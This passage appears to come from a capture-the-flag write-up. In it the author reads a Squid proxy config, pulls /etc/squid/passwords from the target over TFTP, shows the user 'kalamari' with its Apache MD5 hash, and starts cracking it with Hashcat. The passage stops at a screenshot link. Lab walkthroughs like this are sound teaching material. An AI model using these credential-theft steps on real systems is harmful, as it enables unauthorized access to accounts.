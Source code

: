     #
    # INSERT YOUR OWN RULE(S) HERE TO ALLOW ACCESS FROM YOUR CLIENTS
    #
    auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords
    auth_param basic realm kalamari
    acl authenticated proxy_auth REQUIRED
    http_access allow authenticated
    
    # Example rule allowing access from your local networks.
    # Adapt localnet in the ACL section to list your (internal) IP networks
    # from where browsing should be allowed
    #http_access allow localnet
    
    # And finally deny all other access to this proxy
    http_access deny all
    

Googling the line `auth_param basic program /usr/lib/squid/basic_ncsa_auth
/etc/squid/passwords`, it seems that `/usr/lib/squid/basic_ncsa_auth` is a
program to check basic authentication, and it uses the config file passed to
it for the hashes.

I’ll grab `/etc/squid/passwords`:

    
    
    tftp> get /etc/squid/passwords
    Received 48 bytes in 0.0 seconds
    

The file contains a single user and hash:

    
    
    root@kali# cat passwords 
    kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
    

### Crack Hash

That format starting with `$apr1$` matches nicely the Apache MD5 format from
the [Hashcat example
hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page, or mode
1600. I fired up [Penglab](https://github.com/mxrch/penglab) and passed it to
Hashcat with `rockyou.txt`:

![image-20200802161047427](https://0xdfimages.gitlab.io/img/image-20200802161047427.png)
